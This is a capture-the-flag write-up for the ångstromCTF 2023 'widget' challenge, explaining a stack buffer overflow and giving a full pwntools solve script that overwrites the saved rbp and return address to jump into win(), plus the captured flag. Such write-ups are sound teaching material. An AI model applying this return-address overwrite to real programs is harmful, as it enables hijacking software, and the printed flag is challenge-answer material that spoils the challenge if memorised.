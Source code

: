 # ångstromCTF 2023 - widget

![](images/widget.png)

You can download challenge here: [widget.zip](widget.zip)

# 1. Find bug

![](images/main.png)

In IDA, we know that we can control the input size (1), hence we can overflow easily (2) --> **Buffer Overflow** bug. On the other hand, there is also a **Format String** bug at the end of main() function. We also have win() function here:

![](images/win.png)

# 2. Idea

With **Buffer Overflow**, we can overwrite saved rip to make it execute win() function, but don't need to be at the beginning, we can jump right at when it open, read and write flag. The bug **Format String** seems useless and it's a rabbit hole if you don't know XD

# 3. Exploit

After finding offset, I know that offset from input buffer to saved rbp and saved rip is 0x20 and 0x28, respectively. Then we have this payload:

```python
payload = b'A'*0x28 + p64(0x40130B)
```

That address is taken from this code at the middle of function win():

![](images/gdb-get-address.png)

But then we face a problem that this code cause SIGBUS:

![](images/sigbus.png)

Why that's happen? Let's check registers:

![](images/check-registers.png)

Register rax seems normal but rbp is not, hence the instruction cause error. To solve this problem, just set rbp to a writable address and we are good to go:

```python
payload = flat(
    b'A'*0x20,
    0x404a00,        # Saved rbp
    0x40130B         # Saved rip
)
```

That fake saved rbp is the writable address of binary 0x404000 and I add with a chosen offset 0xa00 (you can choose another offset as you wish). Send payload and we can get the flag.

Solve script: 

```python
from pwn import *

context.binary = exe = ELF('widget_patched', checksec=False)
sl = lambda data: p.sendline(data)

if args.REMOTE:
	p = remote('challs.actf.co', 31320)
	print(p.recvuntil(b'solution: ').decode())
	p.sendline(input('pow: ').encode())
else:
	p = process(exe.path)

payload = flat(
    b'A'*0x20,
    0x404a00,        # Saved rbp
    0x40130B         # Saved rip
)
sl(str(len(payload)).encode())
sl(payload)

p.interactive()
```

# 4. Get flag

![](images/get-flag.png)

Flag is `actf{y0u_f0und_a_usefu1_widg3t!_30db5c45a07ac981}`